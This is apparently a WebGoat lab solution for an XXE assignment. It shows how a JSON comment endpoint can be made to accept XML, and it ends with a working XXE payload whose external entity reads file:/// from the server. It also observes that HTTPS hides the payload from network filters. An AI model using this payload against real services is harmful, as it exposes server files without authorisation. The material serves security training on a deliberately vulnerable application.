 === Assignment solution

The idea behind this assignment is that while it may look that the application is only accepting JSON but if we change the body of the message to XML the framework might process it. When you try entering a comment the body of request will be:

[source, json]
----
{"text":"My first comment"}
----

This is a normal json message, let's try to change the content-type of the request

[source]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

{"text":"My first comment"}
----

this results in the following exception:

[source]
----
javax.xml.bind.UnmarshalException\n - with linked exception:\n[javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,1]\nMessage: Content is not allowed in prolog.
----

Depending on the XML parser you might get a better error message, in this case the message is a bit cryptic, it means that we are not sending valid xml. For example the Jackson library gives the following message:

[source]
----
JSON parse error: Unexpected character '{' (code 123) in prolog; expected
      '<'\n at [row,col {unknown-source}]: [1,1]; nested exception is com.fasterxml.jackson.core.JsonParseException:
      Unexpected character '{' (code 123) in prolog; expected '<'\n at [row,col {unknown-source}]: [1,1]“
----

This error message appears because we are still sending a json message towards the endpoint, so if we intercept and change the json message to a xml message:

[source]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<text>This is my first message</text>
----

Again an error message from the endpoint:

[source]
----
"javax.xml.bind.UnmarshalException\\n - with linked exception:\\n[com.sun.istack.SAXParseException2; lineNumber: 1; columnNumber: 7; unexpected element (uri:\\\"\\\", local:\\\"text\\\"). Expected elements are <{}comment>]
----

The parser complains that the message is not a valid xml message and needs to be embedded in a `comment` tag:

[source, xml]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<comment><text>This is my first message</text></comment>
----

The endpoint no longer complains and if you refresh the page in WebGoat the posted comments appear. For the attack to work we need to post:

[source, xml]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;This is my first message</text></comment>
----

In some company networks some network devices might drop this payload completely if it was sent over HTTP. In that case no response is returned on the `POST` and the endpoint never receives the request. However, these kind of protections are of limited use, as the same request would pass successfully in an HTTPS setup, where that payload would be encrypted.